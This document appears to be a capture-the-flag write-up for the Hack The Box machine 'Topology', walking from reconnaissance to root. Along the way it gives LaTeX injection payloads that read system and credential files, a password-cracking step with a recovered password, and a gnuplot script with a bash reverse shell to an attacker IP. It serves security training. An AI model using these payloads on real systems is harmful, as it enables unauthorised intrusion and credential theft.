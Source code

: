 ```yaml
---
title: Topology
tags: HTB Latex gnuplot linux  
article_header:
  type: cover
published: true
author: krill
---
```



![](/images/HTB/topology/Topology.png)
<!--more-->

## Reconnaissance 
```
nmap -sCV 10.10.11.217 -T4 -oN map.txt  -Pn 

PORT   STATE SERVICE VERSION
22/tcp open  ssh     OpenSSH 8.2p1 Ubuntu 4ubuntu0.7 (Ubuntu Linux; protocol 2.0)
| ssh-hostkey: 
|   3072 dcbc3286e8e8457810bc2b5dbf0f55c6 (RSA)
|   256 d9f339692c6c27f1a92d506ca79f1c33 (ECDSA)
|_  256 4ca65075d0934f9c4a1b890a7a2708d7 (ED25519)
80/tcp open  http    Apache httpd 2.4.41 ((Ubuntu))
| http-ls: Volume /
|   maxfiles limit reached (10)
| SIZE  TIME              FILENAME
| -     2023-01-17 12:26  demo/
[[about]]| 1.0K  2023-01-17 12:26  demo/fraction.png
| 1.1K  2023-01-17 12:26  demo/greek.png
| 1.1K  2023-01-17 12:26  demo/sqrt.png
| 1.0K  2023-01-17 12:26  demo/summ.png
| 3.8K  2023-01-17 12:26  equation.php
| 662   2023-01-17 12:26  equationtest.aux
| 17K   2023-01-17 12:26  equationtest.log
| 0     2023-01-17 12:26  equationtest.out
| 28K   2023-01-17 12:26  equationtest.pdf
|_
|_http-title: Index of /
Service Info: OS: Linux; CPE: cpe:/o:linux:linux_kernel
```


## Service Enumeration
```
[+] Port 22 
	Version: OpenSSH 8.2p1 
	Public-Exploit: None

	- I need some form of credentials to authenticate to this service which I don't have. 

[+] Port 80 
	Version: Apache httpd 2.4.41
	Public-Exploit: None 
	
	- Visiting the wepage
```
![](/images/HTB/topology/page.png)
```
	- Viewing the page source, I discovered a subdomain and added it to my `/etc/hosts` file. 
```
![](/images/HTB/topology/source.png)
```
		> echo '10.10.11.217  latex.topology.htb' | sudo tee -a /etc/hosts 
	
	[+] Subdomain Bruteforce
		 - Using ffuf to bruteforce for other virtual hosts
			 > ffuf -u http://topology.htb -w /words/big.txt  -t 30 -H 'HOST: FUZZ.topology.htb' -c -fs 6767
		
		- Discovered two other subdomains
```
![](/images/HTB/topology/result.png)
```
		- Add them to your /etc/hosts file 
		
		
	[+] latex.topology.htb 
		- Visiting http://latex.topology.htb/equation.php, you find a LaTeX Equation Generator.
```
![](/images/HTB/topology/lat.png)
```
		- Checking for related vulnerabilities and exploits, I found a cheatsheet on hacktricks that provided payloads for LaTeX Injection.

		- Using the following payload, I was able to read the /etc/passwd file;
			> $\lstinputlisting{/etc/passwd}$
```
![](images/HTB/topology/passwd.png)
```
		- From the /etc/passwd file, I discoverd a user `vdaisley`

	[+] dev.topology.hb
		- Visiting dev.topology.htb shows an http basic authentication.
```
![](/images/HTB/topology/basic.png)
```
		- Since this is http basic authentication, the credentials should be stored somewhere on the web server in a file called .htpasswd
		
		- Using the vulnerability discovered on the latex generator, we should be able to read that file. The question is, where exactly is this file. 

		- Remember the webserver is running apache, so we can check the `sites-enabled/000-default.conf` configuration file to get more information about the subdomains. 
			> $\lstinputlisting{/etc/apache2/sites-enabled/000-default.conf}$
		
		- This displays information about the virtual hosts on the web-server
```
![](/images/HTB/topology/devroot.png)
```
		- The document root for dev is `/var/www/dev`, that means the credential to the http basic authentication should be stored in `/var/www/dev/.htpasswd`
			>  $\lstinputlisting{/var/www/dev/.htpasswd}$
```
![](/images/HTB/topology/creds.png)
```
		- You can use any online tool like google-image, to extract the text from the image. 
		  
	[+] Password Attack
		- Using john-the-ripper, you can crack this hash to get the clear-text password. 
			> john --wordlist=/usr/share/wordlists/rockyou.txt hash
```
![](/images/HTB/topology/john.png)


## Initial Access 
```
	[+] SSH login 
		- Reusing the credentials, we gain access into the machine using ssh
			> sshpass -p calculus20 ssh vdaisley@topology.htb 
```


## Post Exploitation
```
[+] Privilege Escalation 

	[+] Automated tasks
		- Using pspy, which is a linux which allows you to see commands run by other users, cron jobs, etc. as they execute.  
```
![](/images/HTB/topology/pspy.png)
```
		- I  noticed the root user was using the find command to search for all .plt files in the /opt/gnuplot and running the gnuplot binary on each discoverd file.  
		- gnuplot is a command-line and GUI program that can generate two- and three-dimentional plots of functions, data, and data fits.


	[+] gnuplot Command Execution
		
		Since the gnuplot command is run by the root user, we should be able to get a reverse-shell as the root user.
		 
		- The script file of gnuplot can be used to execute system commands.
		  
		- Checking the permission of the /opt/gnuplot directory, we see that we have permissions to write into this directory 
```
![](/images/HTB/topology/gnuplot.png)
```		  
		- Create a new script.plt file in this directory with the following code. 
			> system " bash -c 'bash -i >& /dev/tcp/10.10.16.59/443 0>&1'"
			
		- Prepare a netcat listener to catch the reverse-shell connection
			> nc -lvnp 443
		
		- When the gnuplot binary is run again, you should get a root shell. 
```

_sayonara~🍻_


[Hacktricks_link](https://book-hacktricks-xyz.translate.goog/pentesting-web/formula-doc-latex-injection?_x_tr_sl=auto&_x_tr_tl=en&_x_tr_hl=en-GB#latex-injection)
[gnuplot_command_execution](https://exploit-notes.hdks.org/exploit/linux/privilege-escalation/gnuplot-privilege-escalation/)
